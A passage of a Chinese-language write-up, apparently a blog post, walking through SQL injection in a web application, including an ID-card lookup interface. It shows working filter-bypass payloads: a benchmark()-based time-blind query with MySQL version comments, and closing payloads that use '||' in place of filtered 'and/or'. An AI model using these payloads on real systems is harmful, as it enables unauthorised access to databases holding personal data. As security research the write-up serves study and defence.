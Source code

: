   
发现使用了两个or，而Y()是恒为真的，但是我们依旧无法判断ordertype=1是否存在，如果不存在的话，那么ordertype=1为假，而Y()为真，我们最后的注入语句就无法实现精准判断，所以我们这里使用子查询语句，就不用考虑ordertype=1的真假性。  
  
系统先执行内层语句，也就是
```
select if((ascii(right(left(user/*!55555*/(),1),1))!=1),(select/*!5555555555555555555555*/benchmark(51111111,1),1))
```

  
  

```
select 0 from () x
```

  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaa7oCM47OLhEpH5924GwJY2jr7fuv25P2vbzYjdSCmoqRQfrzExrYncA/640?wx_fmt=png&from=appmsg "")  
  
达到了一个时间盲注的目的。  
## 第三处SQL注入  
  
这是一个拿身份证查信息的接口，tj是注入点，加一个单引号可以看到进行报错。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaia1g1A8IsfASAk5IubfCksicsFXt8lrrb7rm8O2TUtgkyiavOCNlE0BkA/640?wx_fmt=png&from=appmsg "")  
  
多加几个单引号，分析一下。  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaUEiay5hRRoptSHXwohDQ7Dib8icib84oahComONtUPAfSZKBCYYG3H59CA/640?wx_fmt=png&from=appmsg "")  
  
可以看到原本的逻辑应该是 sfzh='123123' and xm='12331'，这里的123123是我随便输入的身份证号,12331是我随意输入的姓名。  
  
于是构造闭合，直接让
```
tj=sfzh=1#
```

  
,这样进行闭合，这样就变成了 
```
sfzh=1 and (注入语句) #
```

  
 然后这里and or 被过滤了，我选择使用 || 来代替，发现 
```
|| 1=1#
```

  
 会爆502，而 
```
|| 1=2#
```

  
 会出现内容  
  
![image.png](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWVb5ic4kRHbm408dyL1icWYiaaHnJibuBzh3AJEXWwjPum5It28YxAMuc6wdyHibuw2Cgx9xUsvv0b9TzQ/640?wx_fmt=png&from=appmsg "")  
  
